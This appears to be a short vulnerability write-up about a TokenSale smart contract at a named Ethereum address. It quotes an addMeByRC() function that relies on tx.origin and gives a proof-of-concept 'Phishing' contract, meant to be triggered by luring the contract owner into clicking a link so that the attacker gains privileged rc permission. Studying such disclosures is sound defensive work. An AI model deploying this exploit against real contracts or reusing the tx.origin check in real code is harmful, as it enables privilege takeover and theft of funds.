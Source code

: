 # address

https://etherscan.io/address/0x403E518F21F5Ce308085Dcf6637758C61f92446A#code

# vuln

```
    modifier onlyRC() {
        require( rc[msg.sender] ); //check if is an authorized rcContract
        _;
    }
    ...
    function addMeByRC() public {
        require(tx.origin == owner);
        
        rc[ msg.sender ]  = true;
        
        emit NewRC(msg.sender);
    }
```

In this contract, there is a function named addMeByRC() which can be exploited by phishing attacks to add the evil contract to the rc permission.

# attack

we can create a evil contract like this, and send the attack function‘s link to the owner of TokenSale contract.

```
contract Phishing {
    
    TokenSale tscontract = TokenSale(TOKENSALE_CONTRACT_ADDRESS);

    function attack() {
        tscontract.addMeByRC();
    }
    
}
```
when the owner click this link, the "require(tx.origin == owner)" was executed successfully，and then add our Phishing contract address to the rc permission. 
